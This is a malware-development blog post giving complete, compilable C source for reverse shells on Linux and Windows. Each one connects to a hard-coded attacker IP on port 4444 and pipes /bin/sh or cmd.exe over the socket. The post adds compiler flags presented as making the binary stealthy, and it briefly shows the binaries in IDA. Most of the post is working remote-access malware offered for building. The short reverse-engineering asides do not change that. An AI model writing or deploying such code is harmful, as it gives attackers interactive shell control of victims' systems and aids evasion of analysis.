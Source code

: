 ```yaml
---
layout: post
title: 1 MALDEV - Linux/Windows full C Reverse Shell 
category : [Reverse, MALDEV]
tags: reverse
---
```


In this post, we'll create reverse shells using pure C code for both Linux and Windows systems. This approach gives us more control over the implementation and helps us understand the underlying programming concepts.

## Linux Reverse Shell Implementation

Let's start with a Linux reverse shell written entirely in C.

### Main C Code

Here's the complete C implementation for a Linux reverse shell:

```c 
#include <stdio.h>                    // Include standard input/output library
#include <sys/socket.h>               // Include socket programming functions
#include <netinet/ip.h>               // Include internet protocol definitions
#include <arpa/inet.h>                // Include internet address manipulation functions
#include <unistd.h>                   // Include POSIX operating system API

int main () {                         
  const char* attacker_ip = "192.168.122.17";  // Define the attacker's IP address to connect back to

  struct sockaddr_in target_address;  // Declare a structure to hold target address information
  target_address.sin_family = AF_INET;         // Set address family to IPv4
  target_address.sin_port = htons(4444);       // Set port number to 4444 (converted to network byte order)
  inet_aton(attacker_ip, &target_address.sin_addr);  // Convert IP string to binary format and store in address structure

  int socket_file_descriptor = socket(AF_INET, SOCK_STREAM, 0);  // Create a TCP socket and get file descriptor

  connect(socket_file_descriptor, (struct sockaddr *)&target_address, sizeof(target_address));  // Connect to the attacker's IP and port

  for (int index = 0; index < 3; index++) {   // Loop through file descriptors 0, 1, and 2 (stdin, stdout, stderr)
       dup2(socket_file_descriptor, index);   // Redirect standard input/output/error to the socket connection
  }
  execve("/bin/sh", NULL, NULL);              // Execute a shell, which will now communicate through the socket
  return 0;                                   // Return statement (never reached due to execve)
}
```

### Compilation

We'll compile this with aggressive optimization flags to create a stealthy, minimal binary:

```bash
gcc hack2.c -o hack2 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libgcc -s -Os -fno-ident -fvisibility=hidden -fno-unwind-tables
```

#### Compilation Flags Explained

**Key Optimization Flags:**
- **`-s`** - Strip all symbol table and relocation information (removes function names, variables, debugging symbols)
- **`-ffunction-sections`** - Place each function in its own section (enables dead code elimination)
- **`-fdata-sections`** - Place each data item in its own section (removes unused data)
- **`-Wno-write-strings`** - Suppress warnings about writing to string literals
- **`-fno-exceptions`** - Disable exception handling (removes exception tables)
- **`-fmerge-all-constants`** - Merge duplicate constants into single instances
- **`-static-libgcc`** - Statically link GCC runtime library (no external dependencies)
- **`-Os`** - Optimize for size rather than speed (smaller binary)
- **`-fno-ident`** - Remove compiler identification strings (hides toolchain info)
- **`-fvisibility=hidden`** - Hide symbols by default (reduces symbol table)
- **`-fno-unwind-tables`** - Remove unwind tables (no stack trace debugging info)

### Testing the Linux Reverse Shell

When executed, the binary successfully connects back to our listener:

![res](/assets/images/maldev/1/reverseexec.png)

### Reverse Engineering Analysis

Let's examine our compiled binary using IDA to understand how it appears to a reverse engineer:

![ida](/assets/images/maldev/1/ida.png)

IDA provides excellent decompilation, making the code structure quite clear. We can see the socket operations and the loop that redirects file descriptors.

#### Understanding the Socket Structure

From the `sys/socket.h` header, we can see the socket address structure:

```c 
struct sockaddr {
           sa_family_t     sa_family;      /* Address family */
           char            sa_data[];      /* Socket address */
};
```

In hexadecimal, the last two digits are `0x02`, and since `AF_INET` has a value of `0x02`, we can infer that the rest of the structure is filled with the remaining socket address data.

Having the source code alongside makes it easy to understand the rest of the implementation.

## Windows Reverse Shell Implementation

Now let's create a Windows version using the Windows Socket API (Winsock).

### Main C Code

Here's the Windows reverse shell implementation:

```c 
#include <winsock2.h>                 // Include Windows Socket API for network programming
#include <stdio.h>                    // Include standard input/output library
#pragma comment(lib, "w2_32")         // Link against Windows Socket library (ws2_32.lib)

WSADATA socketData;                   // Structure to hold Windows Socket initialization data
SOCKET mainSocket;                    // Socket handle for the network connection
struct sockaddr_in connectionAddress; // Structure to hold target address information
STARTUPINFO startupInfo;              // Structure to configure process startup parameters
PROCESS_INFORMATION processInfo;      // Structure to hold information about created process

int main(int argc, char* argv[]) {
  char *attackerIP = "10.10.1.5";     // Define the attacker's IP address to connect back to
  short attackerPort = 4444;          // Define the port number to connect to

  // Initialize Windows Socket API with version 2.2
  WSAStartup(MAKEWORD(2, 2), &socketData);

  // Create a TCP socket for network communication
  // AF_INET = IPv4, SOCK_STREAM = TCP, IPPROTO_TCP = TCP protocol
  mainSocket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  // Configure the target address structure
  connectionAddress.sin_family = AF_INET;                    // Set address family to IPv4
  connectionAddress.sin_port = htons(attackerPort);          // Set port (convert to network byte order)
  connectionAddress.sin_addr.s_addr = inet_addr(attackerIP); // Convert IP string to binary format

  // Connect to the attacker's IP and port
  WSAConnect(mainSocket, (SOCKADDR*)&connectionAddress, sizeof(connectionAddress), NULL, NULL, NULL, NULL);

  // Initialize startup info structure with zeros
  memset(&startupInfo, 0, sizeof(startupInfo));
  startupInfo.cb = sizeof(startupInfo);                      // Set size of the structure
  startupInfo.dwFlags = STARTF_USESTDHANDLES;                // Flag to use custom standard handles
  // Redirect all standard handles (stdin, stdout, stderr) to the socket
  startupInfo.hStdInput = startupInfo.hStdOutput = startupInfo.hStdError = (HANDLE) mainSocket;

  // Create a new process (cmd.exe) with redirected standard handles
  // This will make cmd.exe communicate through the socket connection
  CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo);
  exit(0);                                                   // Exit the main process
}
```

### Key Differences from Linux Version

The Windows implementation differs in several important ways:

1. **Winsock Initialization** - Requires `WSAStartup()` to initialize the socket library
2. **Socket Creation** - Uses `WSASocket()` instead of `socket()`
3. **Process Creation** - Uses `CreateProcess()` to spawn `cmd.exe` instead of `execve()`
4. **Handle Redirection** - Redirects standard handles through `STARTUPINFO` structure
5. **Library Linking** - Requires linking against `ws2_32.lib`

### Reverse Engineering Analysis

Let's examine the Windows binary in IDA :

![ida](/assets/images/maldev/1/ida1.png)

By checking the **Imports** section and following `WSASocketA`, we can easily identify the key functions and understand the program's behavior. The Windows API calls make it relatively straightforward to trace the execution flow.

## Summary

We've successfully created reverse shells using pure C code for both Linux and Windows systems:

- **Linux**: POSIX socket API with `dup2()` for file descriptor redirection
- **Windows**: Winsock API with `CreateProcess()` and handle redirection
- **Compilation**: Both use aggressive optimization flags for stealth
- **Analysis**: Both can be reverse engineered, though Windows API calls are more obvious